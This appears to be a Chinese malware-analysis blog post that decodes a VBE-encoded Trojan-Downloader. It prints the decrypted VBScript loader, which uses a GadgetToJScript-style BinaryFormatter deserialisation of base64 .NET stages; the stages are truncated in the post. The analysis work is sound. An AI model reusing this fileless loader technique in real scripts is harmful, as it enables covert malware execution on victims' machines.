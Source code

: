 ```yaml
---
title: VBE样本分析
date: 2023-10-30 15:13:58
tags: 病毒分析
---
```


# VBE样本分析

逛论坛的时候发现了许多VBE的样本，闲来无事就拿过来一个进行痛苦的分析）

## 样本解密

![](./../img/image-20231030151742300.png)

由于使用的是VBE加密，所以需要用到[srcdec](https://gist.github.com/bcse/1834878)来进行解密嘞（感谢DI的赞助，所以不得不把分析环境切到虚拟机里）



![](./../img/image-20231030152255685.png)

吐槽下，由于编码问题需要指定codepage来进行解密。否则会出现乱码的情况

## 脚本结构

解密完成后大概可以看到脚本结构了

```vb
stage_1 = "AAEAAAD/////....."
stage_1_len = 2341
stage_2 = "AAEAAAD/////....."
stage_2_len = 198280
stage_3 = "AAEAAAD/////....."
stage_3_len = 197922
Function Base64ToStream(b,l)
  Dim enc, length, transform, ms
  Set enc = CreateObject("System.Text.ASCII"+"Encoding")
  length = enc.GetByteCount_2(b)
  Set transform = CreateObject("System.Security.Cryptography.FromBase64Transform")
  Set ms = CreateObject("System.IO.MemoryStream")
  ms.Write transform.TransformFinalBlock(enc.GetBytes_4(b), 0, length), 0, l
  ms.Position = 0
  Set Base64ToStream = ms
End Function
Dim shell
Set shell = CreateObject("WScript.Shell")
Dim ver
ver = "v4.0.30319"
On Error Resume Next
shell.RegRead "HKLM\SOFTWARE\\Microsoft\.NETFramework\v4.0.30319\"
If Err.Number <> 0 Then
  ver = "v2.0.50727"
  stage_1 = stage_3
  stage_1_len = stage_3_len
  Err.Clear
End If
shell.Environment("Process").Item("COMPLUS_Version") = ver
'shell.Popup "", 0, ver, 64
On Error Resume Next
Dim fmt_1
Set fmt_1 = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
fmt_1.Deserialize_2(Base64ToStream(stage_1, stage_1_len))
If Err.Number <> 0 Then
  Dim fmt_2
  Set fmt_2 = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
  fmt_2.Deserialize_2(Base64ToStream(stage_2, stage_2_len))
End If
```

看文件格式大概率是[GadgetToJScript](https://github.com/med0x2e/GadgetToJScript/tree/2.0)的杰作了，那这样子逆向起来应该不会很麻烦。

stage_1/2/3是base64加密的，丢010editor里解密一下就能扒出来点东西。转HEX后记得把MZ前的垃圾删掉



![](./../img/image-20231030163019691.png)

随后就可以丢进去看一眼文件头了）  很好C#写的 剩下的就交给dnSpy来解决了

![](./../img/image-20231030163134325.png)



![](./../img/image-20231030163704488.png)

所以这个脚本就是一个Trojan-Downloader( 后续行为还是得看那几个衍生物的

很有趣的事情是，他针对两个.net版本用了不同的payload。有空分析下这两个有什么区别吧）

## 后续

衍生物什么的挖个坑，日后再填吧。准备先把G2JS的内容写了。玩无文件攻击貌似会很有趣）
